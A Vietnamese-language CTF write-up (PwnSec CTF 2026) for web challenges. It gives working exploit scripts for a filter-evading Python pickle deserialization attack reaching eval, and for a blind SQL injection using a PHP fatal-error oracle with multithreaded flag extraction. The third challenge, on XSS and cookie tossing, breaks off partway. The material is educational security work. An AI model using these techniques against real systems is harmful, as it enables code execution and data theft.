# PwnSec CTF 2026 — Comprehensive Step-by-Step Write-up
## Ba thử thách: `pickle`, `PHAULT` & `Neon Skies`

---

# MỤC LỤC
1. [Challenge 1: pickle (Web / Python Deserialization)](#challenge-1-pickle)
   - [1.1. Thông tin thử thách](#11-thông-tin-thử-thách)
   - [1.2. Bước 1: Trinh sát và Khảo sát ứng dụng](#12-bước-1-trinh-sát-và-khảo-sát-ứng-dụng)
   - [1.3. Bước 2: Phân tích mã nguồn và các lớp bảo mật](#13-bước-2-phân-tích-mã-nguồn-và-các-lớp-bảo-mật)
   - [1.4. Bước 3: Tìm phương án Bypass và Xây dựng chuỗi khai thác](#14-bước-3-tìm-phương-án-bypass-và-xây-dựng-chuỗi-khai-thác)
   - [1.5. Bước 4: Chế tạo Pickle Bytecode Payload](#15-bước-4-chế-tạo-pickle-bytecode-payload)
   - [1.6. Bước 5: Thực thi khai thác và Nhận cờ](#16-bước-5-thực-thi-khai-thác-và-nhận-cờ)
2. [Challenge 2: PHAULT (Web / SQL Injection)](#challenge-2-phault)
   - [2.1. Thông tin thử thách](#21-thông-tin-thử-thách)
   - [2.2. Bước 1: Trinh sát và Phân tích mã nguồn](#22-bước-1-trinh-sát-và-phân-tích-mã-nguồn)
   - [2.3. Bước 2: Nhận diện bẫy Anti-Timing Attack](#23-bước-2-nhận-diện-bẫy-anti-timing-attack)
   - [2.4. Bước 3: Phát hiện lỗ hổng PHAULT (PHP Fatal Error qua INTO @var)](#24-bước-3-phát-hiện-lỗ-hổng-phault-php-fatal-error-qua-into-var)
   - [2.5. Bước 4: Xây dựng Boolean Oracle nhị phân](#25-bước-4-xây-dựng-boolean-oracle-nhị-phân)
   - [2.6. Bước 5: Viết Script khai thác đa luồng và Trích xuất cờ](#26-bước-5-viết-script-khai-thác-đa-luồng-và-trích-xuất-cờ)
3. [Challenge 3: Neon Skies (Web / XSS & Cookie Tossing)](#challenge-3-neon-skies)
   - [3.1. Thông tin thử thách](#31-thông-tin-thử-thách)
   - [3.2. Bước 1: Phân tích mã nguồn và Cơ chế bot](#32-bước-1-phân-tích-mã-nguồn-và-cơ-chế-bot)
   - [3.3. Bước 2: Lỗ hổng Unescaped Reflection và Cookie Tossing](#33-bước-2-lỗ-hổng-unescaped-reflection-và-cookie-tossing)
   - [3.4. Bước 3: Phối hợp Cross-Challenge tận dụng RCE pickle](#34-bước-3-phối-hợp-cross-challenge-tận-dụng-rce-pickle)
   - [3.5. Bước 4: Thực thi khai thác và Nhận cờ](#35-bước-4-thực-thi-khai-thác-và-nhận-cờ)

---

# Challenge 1: `pickle`

## 1.1. Thông tin thử thách
- **Tên bài:** `pickle`
- **Category:** Web Exploitation / Python Deserialization
- **Tác giả:** `C0uZ_Gh0sT`
- **Mức độ:** Medium / Hard
- **Flag:** `pwnsec{ce3a3177fb14adae}`



---

## 1.2. Bước 1: Trinh sát và Khảo sát ứng dụng
- Đề bài cung cấp file `pickle.zip` (mật khẩu giải nén: `infected`).
- Khi truy cập instance thử thách, ta bắt gặp giao diện web mang tên **Time Capsule (Cryo-Session Archive)**.
- Chức năng của trang: Cho phép người dùng nhập vào một chuỗi `base64` của đối tượng Python pickle, sau đó bấm nút **"Restore capsule"** để giải nén phiên làm việc.
- Nếu giải mã thành công, server trả về trường `output` in ra màn hình. Nếu thất bại hoặc vi phạm bảo mật, server trả về lỗi `Rejected | ...`.



---

## 1.3. Bước 2: Phân tích mã nguồn và các lớp bảo mật

Khảo sát thư mục nguồn sau khi giải nén:
- `Dockerfile`: Chạy trên môi trường `python:3.12-slim`, cờ nằm tại `/app/flag.txt`.
- `webapp.py`: Backend Flask xử lý kiểm tra và giải mã pickle.
- `sessionstore.py`: Module hỗ trợ được import bởi `webapp.py`.

### Phân tích `webapp.py`
```python
BANNED_PATTERNS = [
    b".",
    b"os", b"system", b"popen", b"subprocess", b"commands",
    b"exec", b"eval", b"import", b"getattr", b"setattr", b"flag"
]
BANNED_INSTRUCTION = "REDUCE"
ALLOWED_MODULES = {"sessionstore", "collections"}

class RestrictedUnpickler(pickle.Unpickler):
    def find_class(self, module, name):
        if module.split(".")[0] not in ALLOWED_MODULES:
            raise pickle.UnpicklingError("module %r is not allowed" % module)
        return super().find_class(module, name)

def check(data):
    for pattern in BANNED_PATTERNS:
        if pattern in data:
            raise ValueError("Payload contains banned characters!")
    out = io.StringIO()
    try:
        pickletools.dis(data, out=out)
        disassembled = out.getvalue()
        if BANNED_INSTRUCTION in disassembled:
            raise ValueError("Payload contains banned instruction: %s" % BANNED_INSTRUCTION)
    except Exception:
        disassembled = "Error!"
    return disassembled

def restore(raw_b64):
    import contextlib
    data = base64.b64decode(raw_b64)
    disassembled = check(data)
    buf = io.StringIO()
    with contextlib.redirect_stdout(buf):
        try:
            RestrictedUnpickler(io.BytesIO(data)).load()
        except Exception:
            pass
    return buf.getvalue(), disassembled
```

### Phân tích `sessionstore.py`
```python
class Capsule:
    def __init__(self, owner="guest"):
        self.owner = owner
        self.cache = {}

    def __repr__(self):
        return "<Capsule owner=%r fields=%s>" % (self.owner, list(self.cache))

def render(record, key):
    return record.cache[key]

def new_capsule(owner="guest"):
    return Capsule(owner)
```

### Các hàng rào bảo mật được dựng lên:
1. **Lọc chuỗi ký tự (`BANNED_PATTERNS`)**: Bất kỳ byte nào trùng với `.` hoặc các từ khóa RCE phổ biến (`os`, `eval`, `flag`, ...) đều khiến payload bị loại bỏ ngay từ đầu.
2. **Lọc Opcode (`BANNED_INSTRUCTION = "REDUCE"`)**: Bất kỳ lệnh gọi hàm thông thường nào trong pickle thông qua opcode `REDUCE` (`R`) sẽ bị phát hiện bởi `pickletools.dis()`.
3. **Whitelist Module (`ALLOWED_MODULES`)**: `RestrictedUnpickler` chỉ cho phép nạp class từ `sessionstore` và `collections`.
4. **Không trả về đối tượng**: Hàm `restore()` không trả về object deserialized mà chỉ trả về nội dung xuất ra `stdout` thông qua `with contextlib.redirect_stdout(buf):`.

---

## 1.4. Bước 3: Tìm phương án Bypass và Xây dựng chuỗi khai thác

### 1. Kỹ thuật Bypass Blacklist ký tự (Hex String Escaping)
Trong opcode `S` (string literal kế thừa từ Python 2 string format), pickle hỗ trợ escape ký tự bằng mã Hex dạng `\x..`:
- Chữ `e`, `v`, `a`, `l` $\rightarrow$ `\x65\x76\x61\x6c`.
- Dấu chấm `.` $\rightarrow$ `\x2e`.
- Tên file `flag.txt` $\rightarrow$ `\x66\x6c\x61\x67\x2e\x74\x78\x74`.
- Lệnh Python `print(open("flag.txt").read())` hoàn toàn có thể mã hóa thành một chuỗi toàn bộ gồm các cặp `\x..`. Raw byte stream gửi lên server hoàn toàn không chứa chuỗi `flag`, `eval`, `.` hay `os`.

### 2. Kỹ thuật Vô hiệu hóa bộ lọc Opcode `REDUCE`
- Nhìn vào hàm `check(data)`:
  ```python
  try:
      pickletools.dis(data, out=out)
      disassembled = out.getvalue()
      if BANNED_INSTRUCTION in disassembled:
          raise ValueError(...)
  except Exception:
      disassembled = "Error!"
  return disassembled
  ```
- Vì byte `b"."` bị cấm, ta **không đặt opcode `STOP` (`b'.'`)** ở cuối payload.
- Khi `pickletools.dis()` phân tích tới cuối stream mà không thấy `STOP`, nó ném ra ngoại lệ `ValueError: pickle exhausted before seeing STOP`.
- Khối `except Exception:` lập tức bắt lấy ngoại lệ này và gán `disassembled = "Error!"` rồi return. Đoạn mã kiểm tra `if BANNED_INSTRUCTION in disassembled` **bị bỏ qua hoàn toàn**!
- Trong khi đó, `RestrictedUnpickler.load()` khi chạy sẽ thực thi tuần tự từng instruction từ đầu stream cho đến khi hết dữ liệu (`EOFError`). Lỗi `EOFError` này được khối `try...except Exception: pass` trong `restore()` lờ đi. Những gì đã được in ra `stdout` trước đó vẫn được lưu lại vào buffer và trả về cho client!

### 3. Kỹ thuật RCE không dùng `REDUCE` và chỉ dùng `sessionstore`
- `find_class` chỉ cho phép truy cập module `sessionstore`.
- Mỗi module trong Python đều chứa sẵn một dictionary tham chiếu đến builtins: `sessionstore.__builtins__`. Ta có thể lấy dictionary này bằng opcode `csessionstore\n__builtins__\n`.
- Trong `sessionstore.py`, hàm `render(record, key)` có logic:
  ```python
  def render(record, key):
      return record.cache[key]
  ```
- Nếu ta tạo một đối tượng `Capsule` rồi ghi đè thuộc tính `cache` bằng `sessionstore.__builtins__`, thì khi gọi `render(capsule, 'eval')`, hàm sẽ trả về chính là hàm `eval` của Python!
- **Cách gọi hàm không dùng `REDUCE` (`R`):**
  - Opcode `i` (`INST`): Gọi `find_class(module, name)(*args)` để khởi tạo instance `Capsule` và để gọi hàm `sessionstore.render(capsule, 'eval')`.
  - Opcode `b` (`BUILD`): Cập nhật `capsule.__dict__` với dictionary `{'cache': sessionstore.__builtins__}`.
  - Opcode `o` (`OBJ`): Lấy callable từ stack và gọi với các tham số trên stack: `eval("print(open('flag.txt').read())")`.

---

## 1.5. Bước 4: Chế tạo Pickle Bytecode Payload

Ta viết script Python lắp ráp từng opcode pickle theo trình tự:

```text
(                              # PUSH MARK
isessionstore\nCapsule\n       # INST: Gọi sessionstore.Capsule() -> Stack: [capsule]
(                              # PUSH MARK
S'cache'\n                     # PUSH chuỗi 'cache'
csessionstore\n__builtins__\n  # GLOBAL: Lấy sessionstore.__builtins__
d                              # DICT: Tạo {'cache': sessionstore.__builtins__}
b                              # BUILD: Cập nhật capsule.cache = __builtins__
p0\n                           # PUT 0: Lưu capsule vào memo 0
0                              # POP: Xóa capsule khỏi đỉnh stack (stack rỗng)
(                              # PUSH MARK cho OBJ (gọi eval)
(                              # PUSH MARK cho INST (gọi render)
g0\n                           # GET 0: Lấy capsule từ memo 0
S'\x65\x76\x61\x6c'\n          # PUSH chuỗi 'eval' (hex-escaped)
isessionstore\nrender\n        # INST: Gọi sessionstore.render(capsule, 'eval') -> Trả về hàm eval
S'\x70\x72\x69\x6e\x74...'\n   # PUSH chuỗi code 'print(open("flag.txt").read())' (hex-escaped)
o                              # OBJ: Gọi eval(code) -> Đọc file flag.txt và in ra stdout!
```

---

## 1.6. Bước 5: Thực thi khai thác và Nhận cờ

Kịch bản khai thác hoàn chỉnh được lưu tại `exploit_remote.py`:

```python
import base64
import json
import ssl
import urllib.request

# 1. Mã hóa chuỗi bằng hex-escape để bypass BANNED_PATTERNS
eval_str = "".join(f"\\x{b:02x}" for b in b"eval")
code = 'print(open("flag.txt").read())'
code_str = "".join(f"\\x{b:02x}" for b in code.encode())

# 2. Xây dựng bytecode pickle
p = bytearray()
p.extend(b"(")
p.extend(b"isessionstore\nCapsule\n")
p.extend(b"(")
p.extend(b"S'cache'\n")
p.extend(b"csessionstore\n__builtins__\n")
p.extend(b"d")
p.extend(b"b")
p.extend(b"p0\n")
p.extend(b"0")
p.extend(b"(")
p.extend(b"(")
p.extend(b"g0\n")
p.extend(f"S'{eval_str}'\n".encode())
p.extend(b"isessionstore\nrender\n")
p.extend(f"S'{code_str}'\n".encode())
p.extend(b"o")
# Lưu ý: Tuyệt đối không thêm dấu chấm '.' ở cuối

# 3. Base64 encode và gửi tới server
b64_payload = base64.b64encode(p).decode()
url = "https://bb5a527b7f5c2a59.chal.ctf.ae/restore"

req = urllib.request.Request(
    url,
    data=json.dumps({"payload": b64_payload}).encode("utf-8"),
    headers={"Content-Type": "application/json"},
)

ctx = ssl.create_default_context()
ctx.check_hostname = False
ctx.verify_mode = ssl.CERT_NONE

with urllib.request.urlopen(req, context=ctx) as resp:
    print("[+] Server Response:", resp.read().decode())
```

Chạy script trên Terminal:



Server phản hồi JSON:
```json
{"disassembled":"Error!","ok":true,"output":"pwnsec{ce3a3177fb14adae}\n\n"}
```
$\rightarrow$ **Flag:** `pwnsec{ce3a3177fb14adae}`

---
---

# Challenge 2: `PHAULT`

## 2.1. Thông tin thử thách
- **Tên bài:** `PHAULT`
- **Category:** Web Exploitation / SQL Injection
- **Tác giả:** `CANAS`
- **Mức độ:** Easy
- **Flag:** `pwnsec{0e2de77060a05e91}`


---

## 2.2. Bước 1: Trinh sát và Phân tích mã nguồn

Khi truy cập vào đường dẫn của thử thách, server hiển thị toàn bộ mã nguồn PHP của file `index.php`:

```php
<?php
$START = microtime(true);
ob_start();
register_shutdown_function(function () use ($START) {
    $remaining = 2.0 - (microtime(true) - $START);
    if ($remaining > 0) {
        usleep((int)($remaining * 1000000));
    }
}); // no timing attack!!
mysqli_report(MYSQLI_REPORT_OFF);
$db = new mysqli("127.0.0.1", "user", "user", "chall");
echo highlight_file(__FILE__, true);
if (isset($_GET["id"])) {
    $sql = "SELECT username FROM users WHERE id = " . $_GET["id"];
    $res = $db->query($sql);
    if (!$res) {
        die("ill try to tell him, dw");
    }
    $row = $res->fetch_row();
    echo 'ill try to tell him, dw';
}
?>
```

---

## 2.3. Bước 2: Nhận diện bẫy Anti-Timing Attack

- Câu truy vấn `$sql = "SELECT username FROM users WHERE id = " . $_GET["id"];` bị lỗi SQL Injection trực tiếp do không dùng prepared statement hay lọc đầu vào.
- Tuy nhiên:
  - Nếu query bị lỗi (`!$res`): In ra `ill try to tell him, dw`.
  - Nếu query chạy thành công: Cố tình không in kết quả `$row`, mà tiếp tục in ra `ill try to tell him, dw`.
  - Hai nhánh hoàn toàn giống hệt nhau về mặt hiển thị.
- Người giải thường nghĩ ngay đến **Blind SQLi Timing Attack** (dùng `SLEEP(3.5)`). Nhưng tác giả đã cài đặt một shutdown hook:
  ```php
  register_shutdown_function(function () use ($START) {
      $remaining = 2.0 - (microtime(true) - $START);
      if ($remaining > 0) {
          usleep((int)($remaining * 1000000));
      }
  }); // no timing attack!!
  ```
  - Mọi request đều bị ép ngủ bù để kéo dài tối thiểu **2.0 giây**.
  - Nếu dùng `SLEEP(3.5)`, mỗi lần đoán 1 bit mất 3.5 – 5.5 giây, cực kỳ chậm, dễ bị timeout hoặc quá tải làm chết dịch vụ database.
  - Tên bài: **PHAULT** $\rightarrow$ Gợi ý đến **PHP Fault** (tức làm PHP văng lỗi Fatal Error).

---

## 2.4. Bước 3: Phát hiện lỗ hổng PHAULT (PHP Fatal Error qua `INTO @var`)

Quan sát kỹ dòng code sau câu query:
```php
$res = $db->query($sql);
if (!$res) {
    die("ill try to tell him, dw");
}
$row = $res->fetch_row();
```

Khi sử dụng cú pháp gán biến session của MySQL `INTO @var`:
```sql
1 UNION SELECT 2 WHERE (<condition>) INTO @a
```

### Cơ chế hoạt động của MySQL và PHP:
1. **Trường hợp Điều kiện ĐÚNG (2 dòng trả về):**
   - Query trả về 2 dòng: dòng `1` từ bảng `users` và dòng `2` từ `UNION SELECT`.
   - Trong MySQL, mệnh đề `INTO @var` chỉ chấp nhận tối đa 1 dòng. Khi có 2 dòng, MySQL phát sinh lỗi:
     ```text
     ERROR 1172 (42000): Result consisted of more than one row
     ```
   - Câu truy vấn bị lỗi $\rightarrow$ `$db->query($sql)` trả về `false`.
   - Nhảy vào `if (!$res) die("ill try to tell him, dw");`.
   - Script dừng lại bình thường $\rightarrow$ **Không có lỗi Fatal Error**.

2. **Trường hợp Điều kiện SAI (chỉ có 1 dòng trả về):**
   - Nhánh `UNION` không trả về dòng nào, tổng số dòng chỉ là 1 (từ dòng `1`).
   - Mệnh đề `INTO @a` thực thi thành công!
   - Trong driver `mysqli`, khi query là `SELECT ... INTO @var`, MySQL gửi về gói OK packet (không có resultset), do đó `$db->query($sql)` trả về kiểu boolean **`true`**!
   - Vì `$res === true`, điều kiện `if (!$res)` không thỏa mãn.
   - PHP tiếp tục chạy dòng:
     ```php
     $row = $res->fetch_row();
     ```
   - Gọi method `fetch_row()` trên một giá trị boolean `true` sẽ khiến PHP 8 ném ngoại lệ nghiêm trọng (Fatal error):
     ```text
     Fatal error: Uncaught Error: Call to a member function fetch_row() on bool in /var/www/html/index.php:19
     ```


Vì server cấu hình `display_errors = On`, thông báo `Fatal error` sẽ hiển thị ngay trên HTML!

---

## 2.5. Bước 4: Xây dựng Boolean Oracle nhị phân

Từ phát hiện trên, ta có một Oracle nhị phân chuẩn xác 100% và phản hồi tức thì:

$$\text{Oracle}(cond) = \begin{cases} 
\text{TRUE} & \text{khi response KHÔNG chứa "Fatal error"} \\
\text{FALSE} & \text{khi response CÓ chứa "Fatal error"}
\end{cases}$$

### Thực hiện Reconnaissance cơ sở dữ liệu:
- Kiểm tra bảng `flag`:
  `1 UNION SELECT 2 WHERE ((SELECT COUNT(*) FROM information_schema.tables WHERE table_name='flag')>0) INTO @a` $\rightarrow$ **TRUE** (Có bảng `flag`).
- Kiểm tra số cột trong bảng `flag`:
  `1 UNION SELECT 2 WHERE ((SELECT COUNT(*) FROM information_schema.columns WHERE table_name='flag')=1) INTO @a` $\rightarrow$ **TRUE** (Có đúng 1 cột tên là `flag`).
- Kiểm tra độ dài chuỗi cờ:
  `1 UNION SELECT 2 WHERE ((SELECT LENGTH(flag) FROM flag)=24) INTO @a` $\rightarrow$ **TRUE** (Độ dài cờ là 24 ký tự).

Định dạng cờ là: `pwnsec{` (7 ký tự) + 16 ký tự hex + `}` (1 ký tự) = 24 ký tự.

---

## 2.6. Bước 5: Viết Script khai thác đa luồng và Trích xuất cờ

Vì không cần `SLEEP()`, ta có thể tận dụng `concurrent.futures.ThreadPoolExecutor` để dò tìm đồng thời toàn bộ 16 ký tự cờ cùng lúc:

File `solve_flag.py`:
```python
import requests
import urllib3
from concurrent.futures import ThreadPoolExecutor

urllib3.disable_warnings()

# Thay thế bằng host instance đang hoạt động
HOST = "965759d3620573db.chal.ctf.ae"
URL = f"https://{HOST}/"

def oracle(cond):
    s = requests.Session()
    s.verify = False
    p = f"1 UNION SELECT 2 WHERE ({cond}) INTO @a"
    try:
        r = s.get(URL, params={"id": p}, timeout=10)
        # Không có "Fatal error" => Query lỗi do >1 dòng => Điều kiện TRUE
        return "Fatal error" not in r.text
    except Exception as e:
        return False

def find_char(pos):
    lo, hi = 32, 126
    while lo < hi:
        mid = (lo + hi) // 2
        cond = f"ASCII(SUBSTRING((SELECT flag FROM flag),{pos},1))<={mid}"
        if oracle(cond):
            hi = mid
        else:
            lo = mid + 1
    ch = chr(lo)
    print(f"[+] Pos {pos}: {ch}")
    return pos, ch

print("[*] Đang trích xuất 16 ký tự cờ song song (vị trí 8 đến 23)...")
with ThreadPoolExecutor(max_workers=16) as ex:
    futures = [ex.submit(find_char, pos) for pos in range(8, 24)]
    results = dict(f.result() for f in futures)

inside = "".join(results[pos] for pos in range(8, 24))
flag = f"pwnsec{{{inside}}}"

print("\n" + "="*45)
print(f"[🎉] FLAG THU ĐƯỢC: {flag}")
print("="*45)

# Kiểm tra lại độ chính xác của Flag hoàn chỉnh
is_valid = oracle(f"(SELECT flag FROM flag)='{flag}'")
print(f"[*] Xác thực cờ trên Database: {is_valid}")
```

Chạy script trên Terminal:


Kết quả trích xuất:
```text
Pos 8: 0
Pos 9: e
Pos 10: 2
Pos 11: d
Pos 12: e
Pos 13: 7
Pos 14: 7
Pos 15: 0
Pos 16: 6
Pos 17: 0
Pos 18: a
Pos 19: 0
Pos 20: 5
Pos 21: e
Pos 22: 9
Pos 23: 1

=============================================
[🎉] FLAG THU ĐƯỢC: pwnsec{0e2de77060a05e91}
=============================================
[*] Xác thực cờ trên Database: True
```

$\rightarrow$ **Flag:** `pwnsec{0e2de77060a05e91}`

---

# Challenge 3: `Neon Skies`

## 3.1. Thông tin thử thách
- **Tên bài:** `Neon Skies`
- **Category:** Web Exploitation / XSS / SameSite Cookie Bypass / Cookie Tossing / Bot Interaction / Cross-Challenge Pivoting
- **Tác giả:** `ANAS` (@justraul)
- **Mức độ:** Medium (500 pts)
- **Flag:** `pwnsec{9abdf66a5f2afecb}`



---

## 3.2. Bước 1: Khảo sát giao diện & Nhận diện mục tiêu
- Truy cập vào instance: `https://65b68ef3c79fb356.chal.ctf.ae/`
- Giao diện cyberpunk thành phố đêm huyền ảo với hai chức năng:
  1. **Open the seed vault (`/admin`):** Yêu cầu phiên đăng nhập tài khoản quản trị `archivist`. Khi truy cập mà chưa đăng nhập, người dùng bị đẩy về `/login` với thông báo ngăn chứa đã khóa kín.
  2. **Report a signal (`/report`):** Bàn tiếp nhận báo cáo cho phép gửi một URL để bot tuần tra ghé thăm trong 8 giây.





---

## 3.3. Bước 2: Đọc mã nguồn & Phát hiện lỗ hổng XSS Sink
Giải nén file mã nguồn `neon-skies.zip`, ứng dụng được viết bằng ngôn ngữ Crystal:
- Trong `web/src/views/admin.ecr`:
  ```html
  <div class="seed">
    <span class="seed__label">specimen designation</span>
    <output class="seed__value" id="flag"><%= @flag %></output>
